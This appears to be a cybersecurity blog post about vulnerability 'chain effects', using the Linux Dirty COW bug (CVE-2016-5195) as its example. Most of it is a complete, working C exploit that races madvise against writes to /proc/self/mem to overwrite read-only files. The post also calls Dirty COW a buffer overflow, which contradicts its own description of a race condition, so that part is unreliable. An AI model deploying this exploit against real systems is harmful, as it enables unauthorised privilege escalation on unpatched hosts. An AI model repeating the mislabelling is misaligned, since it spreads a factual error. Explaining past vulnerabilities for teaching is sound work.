 ```yaml
---
title: Chain effect of vulnerabilities
date: 2024-11-23 10H:21:00 -0300
categories: [Cybersecurity, Vulnerabilities]
tags: [cybersecurity, vulnerabilities, CVE, devsecops]
author: 0
description:
image:
  path: https://upload.wikimedia.org/wikipedia/commons/7/73/Logo_nmap.png?20230731104508
  alt: Picture
---
```


# Chain effect of vulnerabilities
The different implementation layers of digital technologies create dependencies that can sometimes lead to security failures with a "chain effect," thereby impacting the underlying technologies.

## Real-world Example: CVE-2016-5195 (Dirty COW)
- Reference: [Nist: CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)
One of the most infamous buffer overflow vulnerabilities in the Linux kernel is CVE-2016-5195, also known as Dirty COW. This vulnerability allowed attackers to gain write access to read-only memory mappings, leading to privilege escalation. The issue was due to a race condition in the kernel's memory subsystem, which could be exploited to overwrite data in memory.

The exploit for Dirty COW was relatively simple and could be executed with a few lines of code, making it a significant threat. The vulnerability had existed in the Linux kernel for nine years before it was discovered and patched.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
  int i;
  for (i = 0; i < 1000000; i++)
    madvise(map, 100, MADV_DONTNEED);
  return NULL;
}

void *procselfmemThread(void *arg) {
  int f = open("/proc/self/mem", O_RDWR);
  int i;
  for (i = 0; i < 1000000; i++) {
    lseek(f, (uintptr_t) map, SEEK_SET);
    write(f, name, strlen(name));
  }
  return NULL;
}

int main(int argc, char *argv[]) {
  pthread_t pth1, pth2;
  f = open(argv[1], O_RDONLY);
  fstat(f, &st);
  name = argv[2];
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  pthread_create(&pth1, NULL, madviseThread, NULL);
  pthread_create(&pth2, NULL, procselfmemThread, NULL);
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
```

This example demonstrates how a buffer overflow vulnerability can lead to severe security incidents, emphasizing the importance of secure coding practices and regular security audits as [Secutiry Controls in DevOps and Pipeline](_site/posts/2024-11-23-Preventive-Security-Controls.md)